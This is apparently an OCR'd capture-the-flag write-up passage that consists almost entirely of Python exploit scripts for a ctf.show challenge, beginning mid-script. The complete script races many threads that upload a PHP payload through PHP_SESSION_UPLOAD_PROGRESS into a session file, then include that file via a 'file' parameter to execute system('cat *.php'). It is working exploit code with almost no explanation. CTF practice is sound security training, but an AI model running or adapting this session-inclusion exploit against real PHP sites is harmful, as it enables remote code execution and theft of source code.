 ```bash
        # print('[+++]retry')
        # print(response.text)

        if 'flag' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)

with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()

    READ(session)
```

```bash
# -*- coding: utf-8 -*-
# @author:lonmar
import io
import requests
import threading

sessID = 'flag'
url = 'http://7920d625-4983-43eb-9d4f-335e57303fd0.chall.ctf.show/'


def write(session):
    while event.isSet():
        f = io.BytesIO(b'a' * 1024 * 50)
        response = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat *.php");?>'},
            files={'file': ('test.txt', f)}
        )


def read(session):
    while event.isSet():
        response = session.get(url + '?file=/tmp/sess_{}'.format(sessID))
        if 'test' in response.text:
            print(response.text)
            event.clear()
        else:
            print('[*]retrying...')


if __name__ == '__main__':
    event = threading.Event()
    event.set()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()

        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
```
